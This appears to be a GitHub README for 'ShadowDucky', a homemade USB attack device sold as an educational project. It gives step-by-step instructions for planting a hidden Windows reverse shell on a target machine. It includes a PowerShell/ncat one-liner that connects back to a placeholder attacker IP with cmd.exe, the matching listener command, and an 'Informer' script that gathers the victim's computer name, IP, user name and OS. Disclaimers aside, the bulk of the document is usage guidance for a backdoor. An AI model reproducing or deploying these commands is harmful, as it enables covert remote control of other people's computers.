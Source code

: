 # ShadowDucky-USB

![ShadowDucky](https://user-images.githubusercontent.com/122622018/214044473-d0ce4b61-d29f-4951-b54e-67dd459dee8a.png)

This is a homemade "Rubber Ducky." It provides the user with a reverse shell and can grab information for Windows-to-Windows applications.

**NOTE:**
- Most file paths in the files start with "D:\" because its application is from a USB. The "ShadowDuckyV1.2A" folder is not needed; the proper format for the flash drive is how it's set up inside that folder.
- Shortcuts may need to be re-made for your application.

---
**WELCOME TO SHADOW DUCKY...**
*TRY AND READ THE HIDDEN MESSAGE...*

INFO: This is a USB remote backdoor. The program "ShadowDucky" will run when "ShadowDuckyV2.vsb" is double-clicked. Some files will have to be edited in Notepad to suit its application. Please follow the listed instructions below to help you properly run "ShadowDucky."

This was created as a project to learn PowerShell functionality, scripting with different coding languages, and reverse shelling. It is a reverse shell for Windows to Windows.

**NOTE:**
- Required resources will be PowerShell, Nmap, and Windows.
- ShadowDucky uses a combination of VBScript, ".bat" cmd, and PowerShell functionality.
- It runs in the background for better use.

---
**INSTRUCTIONS:**

1. Install "nmap" on both your computer and the target device to use ShadowDucky. [Download Nmap](https://nmap.org/download).

2. Place the IP of your host device into "RubberDucky.bat." Enter the IP of the host and the PORT being used into that function.
   Example: `powershell -command do {ncat FF.FF.FF.FF PORT -e cmd.exe} until ($ping)`

3. After changing settings, plug ShadowDucky USB into the target device, double-click ShadowDuckyV2.vbs, and watch the show.
   Return to the host device and use PowerShell with the following command to connect to the target device.
   Example: `ncat -l -p PORT -v`

4. Enjoy! @-[:]

HIDDEN MESSAGE: sx& vqz& rlj& bulf& gost& kztg& djqp& gou& hzggtum& olt& huazj& ljf& sw& lnbulfv& sj& oubu& plndsja& lbqzjf&.& &Solfqp& qb& jqg& vqz& rljg& tuu& wu

**ADVISORY & DISCLAIMER:**
This application was made for purely educational purposes. The developer will not be held liable for any misuse of this source code. Please ensure that if you are going to use "ShadowDucky," it is on your own devices or you have permission from the owner of the device(s).

---
**WELCOME TO SHADOW DUCKY INFORMER:**

**NOTICE:** Use Informer before ShadowDucky to get info to set up ShadowDucky for usage.

ShadowDucky Informer helps with getting the information you need to edit and use ShadowDucky. This Informer will give the user a printout in the ShadowDucky USB, Intel-Report Folder. The current computer's name, IPv4, User Name, and OS will be printed out into Intel-Report.txt.

**INSTRUCTIONS:**
- Double-click Informer.vbs and wait a minute for your report to be given.
- After one minute, check the Intel-Report Folder and use the information in the ".txt" to set up ShadowDucky.

**TO SET UP SHADOWDUCKY:**
- Read the "README.txt" in the README Folder.

**DISCLAIMER:**
This application was made for purely educational purposes. The developer will not be held liable for any misuse of this source code. Please ensure that if you are going to use "ShadowDucky," it is on your own devices or you have permission from the owner of the device(s).

---
**Please Be Responsible**

+---------+
| Shadow  |
|   Drums |
|    TM   |
+---------+
